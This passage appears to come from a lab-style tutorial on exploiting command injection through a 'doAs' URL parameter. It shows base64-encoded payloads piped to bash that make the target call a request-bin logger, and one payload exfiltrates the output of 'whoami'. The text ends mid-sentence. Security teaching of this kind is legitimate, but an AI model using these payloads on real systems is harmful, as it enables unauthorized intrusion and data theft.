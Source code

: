 To check if the server is vulnerable and the command was successfully executed, we would like the target server to communicate with our created logger: we will make the target to send a `GET` request to our REQUEST-BIN-URL.
We will introduce a `curl` command inside the backticks that we discussed before.

But first, we will encode it with base64 inside the URL and then execute it using bash command.

```console
echo -n "curl <REQUEST-BIN-URL>" | base64
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```

![simplecurl.png](../media/simplecurl.png)

We can spot two `GET` requests as we have talked before: one request sent by our shell because of the backticks and another one interpreted by the target shell, meaning that the target is vulnerable.

![requestbinget.png](../media/requestbinget.png)

But we will to extract some system information from the target, so we will try to execute a command and send it with `curl`.
The `-d` parameter of `curl` will specify that we send a request with some data in it: that will be the output of the `whoami`` command.

Because of the `$(whoami)` parameter that will be interpreted by bash, we can encode the string with base64 using python:

```python
python
import base64
base64.b64encode(b'curl -d $(whoami) <REQUEST-BIN-URL>')
```

![python_encode.png](../media/python_encode.png)

```console
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```

We can see that we have got two `GET` requests in our Request Bin logger.
One of this contains the target username:
